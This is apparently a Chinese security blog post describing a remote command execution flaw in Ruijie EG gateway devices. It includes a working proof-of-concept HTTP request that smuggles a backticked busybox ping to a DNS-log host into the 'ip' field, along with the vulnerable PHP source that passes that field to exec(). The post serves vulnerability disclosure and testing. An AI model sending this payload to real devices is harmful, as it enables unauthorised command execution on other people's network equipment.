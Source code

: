 ```yaml
---

layout:     post
title:      "锐捷易网关远程命令执行漏洞"
subtitle:   ""
date:       2020-12-29 12:00:00
author:     "seal"
header-img: "img/post-bg-infinity.jpg"
tags:
    - web安全
    - rce
typora-root-url: ../../luckseal.github.io
---
```


### goby抓包

![image-20201229104331621](/img/2020-12-29-锐捷易网关远程命令执行/image-20201229104331621.png)

估计是网络原因，请求还未到达goby log平台，客户端就去获取，因此未探测到漏洞。但是我们得到了poc，直接测试。

### Poc

```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: x.x.x.x:xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

mac=1&ip=%60busybox ping -c 2 pingtest.xxx.ceye.io%60
```



### busybox

BusyBox 是一个集成了三百多个最常用Linux命令和工具的软件。BusyBox  包含了一些简单的工具，例如ls、cat和echo等等，还包含了一些更大、更复杂的工具，例grep、find、mount以及telnet。有些人将 BusyBox 称为 Linux 工具里的瑞士军刀。简单的说BusyBox就好像是个大工具箱，它集成压缩了 Linux 的许多工具和命令，也包含了 Android 系统的自带的shell。



我测试的环境存在ping命令，因此不用busybox也可以成功执行。poc作者使用busybox的原因可能是锐捷默认会安装busybox并且测试时他们使用的命令不一定安装。



### 测试结果



![image-20201229102328491](/img/2020-12-29-锐捷易网关远程命令执行/image-20201229102328491.png)



![image-20201229102942098](/img/2020-12-29-锐捷易网关远程命令执行/image-20201229102942098.png)

![image-20201229103053455](/img/2020-12-29-锐捷易网关远程命令执行/image-20201229103053455.png)

### 漏洞代码

利用漏洞下载php文件，查看源码：

```
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```



### 漏洞检测

无法直接回显，漏洞检测可以通过以下两种方式：

1. dnslog

2. 写文件探测


